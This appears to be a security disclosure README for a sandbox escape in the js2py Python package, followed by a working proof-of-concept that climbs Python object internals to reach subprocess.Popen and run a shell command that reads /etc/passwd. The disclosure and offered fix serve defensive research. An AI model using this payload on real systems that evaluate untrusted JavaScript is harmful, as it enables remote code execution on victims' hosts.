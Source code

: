 ## Introduction

[中文](./README_zh.md)
[Analysis (Chinese)](./analysis_zh.md)

`js2py` is a popular python package that can evaluate javascript code inside python interpreter. It is used by various web scrapers to parse javascript code on the website.

There exists a vulnerability in the implementation of a global variable inside `js2py`, allowing an attacker obtaining a reference to a python object in the js2py environment, thus enabling the attacker to escape JS environment and execute arbitrary commands on the host.

Normally, a user would call `js2py.disable_pyimport()` to stop JavaScript code from escaping the `js2py` environment. But with this vulnerability, an attacker can evade this restriction and execute any command on the target host.

The threat actor can host a website containing a malicious JavaScript file or send a malicious script via HTTP API for victim to parse. By doing that, the actor can commit remote code execution on the host by executing any shell command on the target.

## Details of the vulnerability

- Version number of the affected component:
  - latest js2py (<=0.74) that runs under python 3
- affected products:
  - [pyload/pyload](https://github.com/pyload/pyload)
  - [VeNoMouS/cloudscraper](https://github.com/VeNoMouS/cloudscraper) (use js2py as a optional 'js interpreter')
  - [dipu-bd/lightnovel-crawler](https://github.com/dipu-bd/lightnovel-crawler)
- The steps to reproduce:
  - install python3 under 3.12, currently `js2py` don't support python3.12.
  - Run `pip install js2py` to install `js2py` and execute `poc.py`, which would try to execute `head -n 1 /etc/passwd; calc; gnome-calculator; kcalc;` on the host.
  - If the vulnerability exists the script should print `Success! the vulnerability exists...` or pop up calculator.

## Fix

Currently, an official fix is unavailable, users can use `fix.py` to dynamically patch js2py or use patch.txt to fix the source code.

## Others

I found this vulnerability in Feburary, and submitted a PR to the official repo. But after that, the PR was forgotten and after four months have passed, I decide to release the PoC and the fix now.


################ POC##########
import js2py
from sys import version

payload = """
// [+] command goes here:
let cmd = "head -n 1 /etc/passwd; calc; gnome-calculator; kcalc; "
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
n11
"""

def test_poc():
    etcpassword_piece = "root:x:0:0"
    result = ""
    try:
        result = repr(js2py.eval_js(payload))
    except Exception:
        return False
    return etcpassword_piece in result

def main():
    if test_poc():
        print("Success! the vulnerability exists for python " + repr(version))
    else:
        print("Failed for python " + repr(version))

if __name__ == "__main__":
    main()